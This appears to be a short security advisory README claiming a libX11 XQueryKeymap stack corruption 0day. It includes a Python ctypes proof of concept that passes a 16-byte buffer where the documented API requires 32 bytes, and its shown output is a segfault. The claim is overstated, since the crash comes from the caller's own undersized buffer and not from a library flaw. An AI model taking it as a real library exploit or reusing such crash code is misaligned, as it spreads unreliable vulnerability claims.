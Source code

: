 =================================================================== 

 X11/libX11.so.6 (XQueryKeymap) Stack corruption/Access violation [PoC+ Fuzzer]

    - 0day: 03/06/2017
    - Vulnerable (tested) library: libx11-6 / Version: 2:1.6.4-3
    - Debian package: libx11-6_1.6.4-3_amd64.deb (8ad41adbd147ffe4bf64c50efcac497b) 
    - Tested at: Intel/x86_64 - Debian 4.9.25-1 (stretch)

----------

The XQueryKeymap() function returns a bit vector for the logical state of the keyboard, where each bit set to 1 indicates that the corresponding key is currently pressed down. The vector is represented as 32 bytes. Byte N (from 0) contains the bits for keys 8N to 8N + 7 with the least-significant bit in the byte representing key 8N. 

    XQueryKeymap(display, keys_return)
       Display *display;
       char keys_return[32];

--------

#### Vulnerable code (example):

    ventiska% vim x11-segfault.py

    #!/usr/bin/python
    import ctypes as ct
    from ctypes.util import find_library
    x11 = ct.cdll.LoadLibrary(find_library("X11"))
    display = x11.XOpenDisplay(None)
    print "CT.C:", ct.c_char * 16
    keyboard = (ct.c_char * 16)()
    print "Display:", display
    x11.XQueryKeymap(display, keyboard)

    
    ventiska% python x11-segfault.py

    CT.C: <class '__main__.c_char_Array_16'>
    Display: 131127216
    zsh: segmentation fault (core dumped)  python x11-segfault.py
